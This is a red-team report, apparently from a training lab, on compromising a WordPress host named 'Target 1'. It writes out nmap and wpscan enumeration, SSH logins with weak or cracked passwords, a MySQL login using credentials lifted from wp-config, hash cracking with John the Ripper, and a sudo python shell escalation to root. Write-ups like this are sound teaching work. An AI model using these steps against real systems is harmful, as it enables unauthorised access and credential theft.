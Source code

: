 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: MEDIUM)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity HIGH)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: HIGH)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: MEDIUM-HIGH)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

#### 1. <ins>`flag1.txt`: *b9bbcb33ellb80be759c4e844862482d*</ins>
- **Exploit Used**
        - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`.


<img src="/Images/wpscan-users.png">
<img src="/Images/Flag1.png">

- Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    - Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
    	- Password: *michael*
3. SSH in as Michael traversing through directories and files.
    		- Flag 1 found in var/www/html folder at root in service.html in an HTML comment below the footer.
    		- Commands:
        		- `ssh michael@192.168.1.110`
        		- `pw: michael`
        		- `cd /var/www/html`
        		- `ls -l`
        		- `nano service.html`
#### <ins>**flag2.txt**: *fc3fd58dcdad9ab23faca6e9a3e581c*</ins>
- **Exploit Used**
      - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
      - Simple directory exploration found the 'flag2.txt' file plainly visible in the /var/www/ directory.
      - `cd /var/www/`
      - `ls -l`
      - `cat flag2.txt`
<img src="/Images/flag2.png">

#### <ins>**Flag3: afc01ab56b50591e7dccf93122770cd2**</ins>
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


#### <ins>**Flag4: 715dea6c055b9fe3337544932f2941ce**</ins>
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

      	  	- Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
           		 - Commands: 
               			 - `ssh steven@192.168.1.110`
               			 - `pw:pink84`
               			 - `sudo -l`
               			 - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                			- `cd /root`
               			 - `ls`
               			 - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">